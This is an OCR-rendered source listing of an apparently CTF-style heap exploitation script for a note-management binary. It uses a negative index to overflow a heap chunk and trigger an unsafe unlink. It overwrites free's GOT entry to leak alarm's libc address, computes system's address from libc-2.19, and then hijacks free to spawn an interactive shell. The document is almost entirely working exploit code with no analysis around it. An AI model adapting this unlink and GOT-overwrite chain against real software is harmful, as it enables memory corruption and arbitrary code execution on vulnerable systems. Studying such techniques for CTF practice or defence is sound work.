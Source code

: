 ```
p0 = pack_fun(0x0)
p1 = pack_fun(heap_buff_size + 0x01)
p2 = pack_fun(node1_addr - 3 * arch_bytes)
p3 = pack_fun(node1_addr - 2 * arch_bytes)
#p[2]=p-3
#p[3]=p-2
#node1_addr = &amp;node1_addr - 3
node2_pre_size = pack_fun(heap_buff_size)
node2_size = pack_fun(heap_node_size)
data1 = p0 + p1 + p2 + p3 + "".ljust(heap_buff_size - 4 * arch_bytes, '1') + node2_pre_size + node2_size
#useful_code --- end
#edit node 1:overwrite node 1 -&gt; overflow node 2
edit_note(io, -9223372036854775808, data1)
#edit_note(io, 1, score, data1)
#delete node 2, unlink node 1 -&gt; unlink
#delete_a_restaurant(io, 2)
delete_note(io, target_id + 1)
alarm_got = 0x0000000000602038
puts_plt = 0x0000000000400730
free_got = 0x0000000000602018
data1 = l64(0x0) + l64(alarm_got) + l64(free_got) + l64(free_got)
edit_note(io, target_id, data1)
data1 = l64(puts_plt)[:6]
io.gdb_hint()
edit_note(io, target_id, data1)
#io.read_until("option---&gt;&gt;n")
#io.writeline("3")
#io.read_until("id of the note:n")
#io.writeline(l64(atol_got))
#data = io.read_until("n")
#print [c for c in data]
delete_note(io, 0)
data = io.read_until("n")[:-1]
print [c for c in data]
alarm_addr = l64(data.ljust(8, 'x00'))
print "alarm_addr:", hex(alarm_addr)
elf_info = ELF("./libc-2.19.so")
#elf_info = ELF("./libc.so.6")
alarm_offset = elf_info.symbols["alarm"]
system_offset = elf_info.symbols["system"]
libc_base = alarm_addr - alarm_offset
system_addr = libc_base + system_offset
data = l64(system_addr)[:6]
edit_note(io, 1, data)
delete_note(io, 6)
io.interact()
io = get_io(target)
pwn(io)
```
